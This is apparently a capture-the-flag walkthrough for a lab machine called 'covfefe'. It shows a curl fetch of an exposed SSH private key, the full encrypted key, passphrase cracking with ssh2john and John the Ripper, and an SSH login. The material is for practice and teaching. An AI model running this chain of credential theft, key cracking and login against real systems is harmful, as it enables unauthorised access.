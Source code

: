 curl http://192.168.1.109:31337/.ssh/id_rsa
`	-----BEGIN RSA PRIVATE KEY-----
	Proc-Type: 4,ENCRYPTED
	DEK-Info: AES-128-CBC,BD8515E8D3A10829A4D710D5AFAC64AB

	FCY9ADNWL6702rP3vBGwzSSNXMojtui0v94aefo2O0Wz0n75YcOAKuj1eNA6hnG5
	qGAaJKI7exONZ3GGf+6JZjORn9yTrj6Cc/tZr6dw9BQFHCQcBPBPpWBZO2IGVsvJ
	Mf5H50v4QvL9RJl0Zcn0wGKgcuK4m0SyWD1ZKTQ3O2peRCmHIc39cyGOFMSRqhVU
	7iMryuPbNZdOuzK8F0mCKKdvOwLhfdEQh2GOKJJ8CAI+Pb/NEvIDkDlsh2t148/D
	kExxOmmVS/NTP9ixyOXc7NL34GHP/mfw/OLVUBVGubEkWA/KdNXkYPWcv+RskwMU
	Dz5JVSduyVMdlskKL1h11UETb+WDPGKktO+dYYnCupi4NGROuOcpj57B5gLOdmxy
	uH7gqTltd6uzASFEXS7rKDniG5Fu8C6zab0bCbM0DDzAexAgPQpweJqvSfqpQpKP
	vmAeXnYGu7tw+U5d6CypS0qhS2P07lyboANstYOBrSzFIZF7LuotgPBSGtfTIkYb
	lH8dyk7VEjIZ51exC4ACdJ/Hqhe08m++2f729m/UL/McEGGiZ4r2df5lPIEq8X4b
	Wdu0SYRIi0J0PoGRrUFJ85j8C+yQXV5CIMAC3LUeDlTUcTEZvhbV8E+tB/zDNEUK
	WuH2+4dlUEA4kyiMsoZNUcgIzhbuF7FK+lDxybjsscRG6fDFECmphiqD+jel2C+b
	QK4dOF23OoYwIbx/XFEa7VNRTnkzANQBi4ELGFsc4uZs9conJfb9T3EXrRJjX9jK
	0abmJthTd3wbiZa10nGwhEzXUCVPvh1j+tbn6xHldsqEc4RjZLnXmalBJ6DxgTxn
	24Ozy1+y0CsycEUHG7b3jTUMvlNs0VCAB7YJUZYHdlPwjMeAOklSeI0MgsmeMOXr
	S+LZzoBq0gzmm5Va1hnjFRgBnDgEMNe1KVU+QZy1O2J0yJT/VaKeME80uOP3z/Q3
	kUGmzgGM2gCrXDwbAKfQzUp8pUR0fZT0pGrgsprpWItCvUfymb8MzdmVD6qzCfYC
	tskyUU6wpQrEH7rA244azObC/HlFulYFAQmNdilguTNpou4TMTXNFfHAuq3DZL67
	RJks2xiJKK3XUbXuFP0QIpfHnDnjJIlCKBVDxcUWLCpARWI8OsY4qEY/DlDu3aU3
	b3K/+LdyndDfbb7edi4OJob7A0bSdlFfOhSRlmyeSgFe5oFTvIAevL0ph3nhgik7
	DELkQnFE/xc49nPtchYZDJ6ifExb5WTO8XHCZb+bjf1BX3kAKSTfRZeowbc+gfAD
	ZxGvHc9T8B30hujl04UCPMXlVR/X5/m9I0hnZKIuRDsJH1waZ+CJj6I93T5GKUKT
	kMyZLUf+pmzRbLwdyNuUe+QTTano8SyK9rMLlthoXxCUFeoF3Q1bNOV8CWbXCLgl
	2s4BObMEU9B4fzSMHUa9LpXz8LQvv74L0mnDJ3Jk82+gQuk6P4haTd03MI9ecZ8U
	B0u8R3H9rzAYYr31q2YbZo03enMkRFC9DaEz4P3hMGCuGErQ8tuX3I07hOZGtm8B
	TJAwpCifrLpx1myEg4kz4OhvWk5cL9qV8SP48T0aBoXHtUZFHa6KBNUpoV8QMhyI
	-----END RSA PRIVATE KEY-----`

Save the above private key as simon.rsa and chmod 0600.
	
`	ssh -i simon.rsa simon@192.168.1.109`

We tried ssh'ing into the system with the private key, but still get prompted for a password. We don't know the password yet, 
lets see if it's easily guessed. 

ssh2john simon.rsa > simon.hash
`	root@kali:~/HDD2/ctf/covfefe# john --fork=45 simon.hash 
	john --show simon.hash 
	simon.rsa:starwars

	1 password hash cracked, 0 left`

ssh -i simon.rsa simon@192.168.1.109 
`	Enter passphrase for key 'simon.rsa': 
	Linux covfefe 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u2 (2017-06-26) i686

	The programs included with the Debian GNU/Linux system are free software;
	the exact distribution terms for each program are described in the
	individual files in /usr/share/doc/*/copyright.
